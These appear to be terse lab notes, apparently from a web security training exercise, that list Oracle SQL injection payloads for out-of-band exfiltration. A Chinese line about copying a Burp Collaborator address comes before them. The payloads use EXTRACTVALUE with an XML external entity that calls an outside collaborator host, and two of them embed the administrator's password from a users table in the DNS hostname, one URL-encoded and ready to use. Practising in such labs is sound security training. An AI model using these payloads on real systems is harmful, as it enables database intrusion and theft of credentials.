 点击Burp ->Burp Collarator client ->
Copy to clipnboard


'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://pc5w1tttn48e0dww3evpsubig9mzao.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--

bze06f2gzlsp5ykhx2bbx47z2q8gw5.burpcollaborator.net

' || SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://5tzu09watfmjzsebrw55ry1twk2bq0.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--


'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.gn7747lexj3a067aml6dr2nb72ds1h.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

' || SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username = 'adminstrator')||'.r7zioi5phunlkhrl6wqobd7mrdx4lt.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual--

r7zioi5phunlkhrl6wqobd7mrdx4lt.burpcollaborator.net